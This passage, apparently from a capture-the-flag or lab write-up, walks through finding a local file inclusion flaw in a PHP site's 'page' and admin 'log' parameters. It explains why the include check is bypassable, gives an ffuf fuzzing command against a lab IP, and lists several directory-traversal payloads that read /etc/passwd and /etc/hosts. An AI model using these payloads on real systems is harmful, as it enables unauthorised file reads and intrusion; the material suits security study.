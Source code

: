 ```html
          </div>
    </footer>
  </div>

  <script src="js/jquery-3.3.1.min.js"></script>
  <script src="js/jquery-migrate-3.0.1.min.js"></script>
  <script src="js/jquery-ui.js"></script>
  <script src="js/popper.min.js"></script>
  <script src="js/bootstrap.min.js"></script>
  <script src="js/owl.carousel.min.js"></script>
  <script src="js/jquery.stellar.min.js"></script>
  <script src="js/jquery.countdown.min.js"></script>
  <script src="js/jquery.magnific-popup.min.js"></script>
  <script src="js/bootstrap-datepicker.min.js"></script>
  <script src="js/aos.js"></script>

  <script src="js/main.js"></script>
    
  </body>
</html>

```

We can analyze the behavior, here are some key features:

```ad-important

1. **Unsanitized User Input**:  
    The `page` parameter in `index.php?page=` is used directly in `include $page . ".php";` without proper validation, allowing attackers to inject PHP wrappers.
    
2. **Directory Traversal Check Bypass**:  
    The code checks for `..` using `strpos`, but this doesn't block PHP filter wrappers like `php://filter`.
3. **Admin Panel Access**:  
    The commented-out line `ilf_admin/index.php` suggests an admin section. Attackers can target this path to read admin scripts for credentials or vulnerabilities.
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250218224538.png)

So, we found the admin panel, we can try automating the scan to check for LFI vulnerabilities, let's do it:

```
ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://83.136.248.62:52545/ilf_admin/index.php?log=FUZZ' -ic -c -t 200 -fs 2046
```

We get the following output:

```
..%2F..%2F..%2F%2F..%2F..%2Fetc/passwd [Status: 200, Size: 3269, Words: 152, Lines: 130, Duration: 157ms]
/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd [Status: 200, Size: 3269, Words: 152, Lines: 130, Duration: 321ms]
../../../../../../../../../../../../etc/hosts [Status: 200, Size: 2291, Words: 155, Lines: 110, Duration: 480ms]
..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd [Status: 200, Size: 3269, Words: 152, Lines: 130, Duration: 621ms]
/../../../../../../../../../../etc/passwd [Status: 200, Size: 3269, Words: 152, Lines: 130, Duration: 187ms]
../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3269, Words: 152, Lines: 130, Duration: 243ms]
../../../../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3269, Words: 152, Lines: 130, Duration: 283ms]
```